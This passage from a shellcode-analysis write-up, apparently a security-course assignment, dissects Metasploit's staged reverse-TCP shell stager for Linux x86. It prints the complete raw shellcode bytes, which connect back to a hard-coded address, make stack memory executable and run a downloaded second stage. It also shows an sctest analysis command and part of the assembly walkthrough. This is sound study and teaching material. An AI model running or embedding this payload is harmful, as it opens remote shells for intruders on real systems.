 ```
"\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80\x97\x5b\x68\xac\x10\x01\x05\x68\x02\x00\x11\x5c\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80"
```

We can already see, again, MSF's reliance on encoders. This raw payload is *full* of nulls. So much so that I question the use of this staged payload, considering the size of an encoded and  unstaged reverse shell payload is similarly sized.

I also run the following to dynamically generate analysis and a graph with sctest. 

```
root@mountain:~# echo -ne "\x61\x0a\x53[...omitted...]" | sctest -vvv -Ss 10000 -G staged_shell_reverse_tcp.dot | tee sctest_staged_shell_reverse_tcp.txt && dot staged_shell_reverse_tcp.dot -Tpng > staged_shell_reverse_tcp.png
```

Because this payload requires a host to connect back to and deliver a second stage notice that the graph stops short after a call to `connect(2)`. 

The files generated during my analysis can be found [here](https://github.com/fbcsec/slae-assignments/tree/master/5-msf-shellcode-analysis/staged_shell_reverse_tcp)

### Stepping through the stager

This shellcode has three primary steps. First, it attempts to connect back to the address and port specified in LPORT and LHOST. If it fails it waits a few seconds and retries a number of times. Then it uses mprotect(2) to set a large section of stack memory to be readable, writable, and executable. Finally it reads bytes from the connection into the memory region that was set to RWX and passes execution to whatever is in there. If any of these steps fail, it attempts to gracefully exit with an exit(2) syscall. 

```nasm
push byte 0xa 
pop esi       
xor ebx,ebx   
mul ebx       
```

First this shellcode does some initial setup. Using the PUSH POP method to move 0x0A into ESI and zero EAX, EBX, and EDX. ESI will be used as a counter for connection attempts. 

```nasm
; socket(2)
push ebx     
inc ebx      
push ebx     
push byte 0x2
mov al,0x66  
mov ecx,esp  
int 0x80     
```

Next a pretty normal `socketcall(2)` to `socket(2)` is made. This returns a file descriptor in EAX. 
